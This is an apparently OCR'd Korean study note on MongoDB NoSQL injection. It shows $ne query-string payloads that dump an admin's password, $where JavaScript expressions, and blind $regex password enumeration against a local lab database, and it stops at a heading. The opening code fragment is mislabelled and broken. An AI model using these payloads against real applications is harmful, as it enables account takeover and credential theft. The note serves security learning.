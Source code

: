 ```python
	headers:{
	  'Content-Type': 'application/json'
	}
  }).then(res => res.json())
  .then(response => console.log('Success:', JSON.stringify(response)))
}
```
	post({"data": 1234});
	// data: 1234
	// type: number
	post({"data": [1, 2, 3]});
	// data: [ 1, 2, 3 ]
	// type: object
	post({"data":{ test: 1 }});
	// data: { test: 1 }
	// type: object


### 다양한 Mongodb injection 기법

##### $ne
아래는 id,pw가 a가 아닌 모든 계정정보 알아내는 모습

	http://localhost:3000/query?uid[$ne]=a&upw[$ne]=a
	=> [{"_id":"5ebb81732b75911dbcad8a19","uid":"admin","upw":"secretpassword"}]

	{"uid": "admin", "upw":  { "$ne" : "guest"} }

위처럼 MongoDB에서는 다양한 연산자를 이용해 Blind NoSQLI를 할 수 있다.

##### $where
인자로 전달한 Javascript 표현식을 만족하는 데이터를 조회
field에서 사용할 수 없음

```sql
> db.user.find({$where:"return 1==1"})
	{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
	
> db.user.find({uid:{$where:"return 1==1"}})
	error: {
		"$err" : "Can't canonicalize query: BadValue $where cannot be applied to a field",
		"code" : 17287
	}
```
##### Blind Injection
정규식을 사용해 식과 일치하는 데이터를 조회
다음은 regex 연산자를 활용한 Blind NoSQL Injection 예시

```sql
> db.user.find({upw: {$regex: "^a"}})
> db.user.find({upw: {$regex: "^b"}})
> db.user.find({upw: {$regex: "^c"}})
	...
> db.user.find({upw: {$regex: "^g"}})
	{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
```
##### where 연산자와 substring
